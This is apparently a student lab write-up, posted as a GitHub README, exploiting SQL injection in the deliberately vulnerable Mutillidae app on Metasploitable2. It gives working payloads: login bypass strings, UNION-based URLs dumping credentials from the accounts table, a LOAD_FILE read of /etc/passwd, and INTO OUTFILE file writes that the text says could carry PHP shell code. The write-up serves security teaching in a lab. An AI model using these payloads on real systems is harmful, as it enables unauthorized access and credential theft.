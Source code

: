 ## sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![244885508-4c83fc80-0108-44d7-92b8-b6292ec99686](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/4a15545a-d946-4031-8dfe-d1469d743301)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![244886609-81aa3c6a-fd5d-4b8f-8656-b921cd05e1f4](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/716e9eba-4725-46c1-a327-9c62708ac1e9)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![244885516-65d72597-0297-485a-8c57-d335bf885ba6](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/a1d37233-9611-45eb-b707-d0b39afab99b)
Click on the menu Login/Register and register for an account
![244885618-dfe4513c-3c0d-43e0-b1e4-ad4baee43b98](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/e35398b4-9245-459e-b16d-31c4a926b56a)
Click on the link “Please register here” 
![244885627-abd46fae-74a4-48e7-9f95-8eb1470cfe3c](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/d010b01e-f1d1-4d59-bf47-c17f8795e92a)

Click on “Create Account” to display the following page:
![244885637-499aca4d-391b-4f0e-ac33-31ace3337955](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/0aec6c4d-ac55-4614-893d-1459a1f65c6a)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![244885646-8ae683e6-f569-42f3-9c38-82bc3f9e6f41](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/3f367d29-88b3-4c4d-ad96-9e8e17b320b7)

Click “Login”. The logged in page will show as below:
![244885649-037084b7-47fb-40ac-85cc-43f91dde84b5](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/02c2f7b1-a819-4d73-80f4-70a09ebe6453)

## Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![244885654-cb326fd0-509f-4df9-b97d-8a65bf1f0716](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/6d18f748-bb0a-459c-8780-be45224cfab0)

Click the login button and you will see it enter into the administrator page.
![244885664-ac33b189-494b-4a5f-bce2-b840ab35e5fc](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/0101f9bd-2c1a-4f3a-8235-04589de26a0b)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![244885675-123993df-2a2b-455f-abde-8904a72314dd](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/e094a740-ed30-4263-8d92-470e5e55102e)
![244885678-9b365f7e-d511-4ff4-a5fb-d33ee779cb86](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/721c4c81-add1-42bc-9dba-139670f99883)
![244885683-7b70cf08-aa04-4ba1-b7e5-12f048c98c57](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/77321afa-3568-46af-ad02-d551d966fabf)
![244885840-713a7087-4c4a-49a0-8c23-92af437df4b1](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/8d7e8361-297a-4628-bec9-3f6ca0557f9f)
![244885834-a242176f-df4f-4eb2-8296-0671fd7d7264](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/cf0eed7e-cb51-42fe-b81f-50a3c0c8eff1)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![244885838-10c8f015-3770-46b5-b320-bf37cc7bbdae](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/9e875685-d903-42ab-a94f-971f5fde92c8)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/dee4a69f-8908-4783-9ea9-653380b2f774)
After adding the order by 6 into the existing url , the following error statement will be obtained: 
![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/95d0ada5-4ac6-4ac3-965e-2a4e355face5)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. 
![244885848-86073e2f-937b-47a4-9b9d-c0c2863b2a7c](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/5fdd0bc3-a864-49c1-b52b-0f99af21ee28)

As it is having 5 columns the query worked fine and it provides the correct result
![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/8b167303-5c75-4f29-8a92-02502ffc3dae)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![244885874-1c7ac260-3410-4f75-8091-2cda6b7f20c0](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/9c069767-0b4b-479c-9933-c8522b271a94)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![244885894-12ebac90-8efb-4558-a442-541029220fa3](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/d7f3fa30-5de9-4f07-85ef-12970758b690)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/0877220e-86b4-4257-81a2-4276f2d4a4cb)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/af8e7700-bc67-410a-88d6-f356d882e626)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/d14eb27d-41a1-4ba3-9776-16fb5585588d)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/e7aa1889-af16-44fc-99b9-221e389a5db4)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/14790d68-e91d-46f6-b071-92e143a8b894)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/b4044c51-49cf-4e43-abec-9748a04d298f)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
